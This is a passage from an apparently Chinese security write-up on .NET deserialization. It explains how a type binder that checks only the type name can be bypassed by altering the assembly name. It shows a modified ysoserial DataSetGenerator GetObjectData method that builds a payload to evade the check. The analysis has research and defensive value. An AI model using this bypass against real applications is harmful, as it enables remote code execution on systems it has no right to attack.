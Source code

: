 该对象存储`Type`和`assemblyName`程序集名

如果能从缓存中获取到则执行`typeNAssembly.type;`返回 Type 对象

如果获取为空，则走到上面的 if 判断，调用`ResolveSimpleAssemblyName(new AssemblyName(assemblyName));`获取`assemblyName`指定的`Assembly`对象，然后调用`GetSimplyNamedTypeFromAssembly(assembly, typeName, ref type);`获取对应的 Type 对象。

结合以上代码知道，在`BindToType`方法只检测`typeName`的时候可以通过在系列化修改`assemblyName`值的方式进行绕过。

修改`ysoserial\Generators\DataSetGenerator.cs`

```plain
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            // info.SetType(typeof(System.Data.DataSet));

            Type type = typeof(System.Data.DataSet);
            info.FullTypeName = type.AssemblyQualifiedName;
            info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
            info.AddValue("DataSet.DataSetName", "");
            info.AddValue("DataSet.Namespace", "");
            info.AddValue("DataSet.Prefix", "");
            info.AddValue("DataSet.CaseSensitive", false);
            info.AddValue("DataSet.LocaleLCID", 0x409);
            info.AddValue("DataSet.EnforceConstraints", false);
            info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
            info.AddValue("DataSet.Tables.Count", 1);
            info.AddValue("DataSet.Tables_0", _fakeTable);
        }
```

[![](assets/1701606711-b6fee82c744f49fbeb23d7ce25f00f4d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108201347-45057560-7e30-1.png)
